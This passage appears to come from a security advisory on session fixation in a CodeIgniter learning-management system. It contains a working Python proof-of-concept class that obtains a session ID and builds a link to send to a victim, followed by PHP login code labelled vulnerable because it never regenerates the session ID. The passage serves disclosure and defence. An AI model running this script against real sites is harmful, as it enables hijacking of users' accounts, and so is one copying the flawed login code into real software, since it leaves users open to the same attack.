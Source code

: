 #### Scenario 3: Network-Based Attack
```python
import requests
from urllib.parse import urljoin

class SessionFixationAttack:
    def __init__(self, target_url):
        self.target_url = target_url
        self.session = requests.Session()
    
    def get_session_id(self):
        """Get a session ID from the target"""
        response = self.session.get(urljoin(self.target_url, '/lms/login'))
        return self.session.cookies.get('ci_session')
    
    def create_malicious_link(self, session_id):
        """Create malicious link with fixed session"""
        return f"{self.target_url}/lms/login;jsessionid={session_id}"
    
    def check_session_access(self, session_id):
        """Check if session provides authenticated access"""
        cookies = {'ci_session': session_id}
        response = requests.get(
            urljoin(self.target_url, '/lms/user/dashboard'),
            cookies=cookies
        )
        return 'logout' in response.text.lower()

# Usage
attack = SessionFixationAttack('https://target.com')
fixed_session = attack.get_session_id()
malicious_link = attack.create_malicious_link(fixed_session)

print(f"Send victim this link: {malicious_link}")
print(f"Then use session ID: {fixed_session}")
```

## Technical Analysis

### Current Vulnerable Code
```php
// In Login.php controller - vulnerable implementation
public function validate_login() {
    $email = $this->input->post('email');
    $password = $this->input->post('password');
    
    // Validate credentials
    $user_data = $this->user_model->authenticate($email, $password);
    
    if ($user_data) {
        // Set session data but DON'T regenerate session ID
        $this->session->set_userdata([
            'user_id' => $user_data['id'],
            'email' => $user_data['email'],
            'logged_in' => true
        ]);
        
        // Redirect to dashboard
        redirect('user/dashboard');
    }
    
    // Session ID remains the same! (VULNERABLE)
}
```
